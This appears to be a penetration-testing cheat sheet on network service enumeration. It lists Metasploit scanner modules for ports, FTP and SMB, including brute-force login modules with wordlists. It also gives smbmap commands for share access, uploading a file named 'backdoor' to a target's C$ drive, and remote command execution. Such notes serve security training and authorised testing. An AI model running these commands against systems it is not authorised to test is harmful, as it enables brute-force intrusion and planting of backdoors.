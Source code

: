 # Enumeration
Servers and Services


- Network Service Discovery. <https://attack.mitre.org/techniques/T1046/>












## MSF

### Port Scanning
auxiliary/scanner/portscan/tcp
auxiliary/scanner/discovery/udp_sweep




### FTP

auxiliary/scanner/ftp/ftp_version

auxiliary/scanner/ftp/anonymous

auxiliary/scanner/ftp/ftp_login # brute force
	set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt




### SMB
auxiliary/scanner/smb/smb_version
auxiliary/scanner/smb/smb_enumusers
auxiliary/scanner/smb/smb_enumshares
auxiliary/scanner/smb/smb_login # brute force

auxiliary/scanner/smb/pipe_auditor



`smbmap` - SMB enumeration tool

```
smbmap -u guest -p "" -d . -H [TARGET]

smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET]

smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] -L

smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] -r [DRIVE]
smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] -r 'C$'

smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] --upload '[LOCAL FILE]' '[DEST]'
smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] --upload '/root/backdoor' 'C$\backdoor'

smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] --download '[REMOTE FILE]'
smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] --download  'C$\backdoor'


smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] -x [COMMAND]
smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] -x 'ipconfig'


```
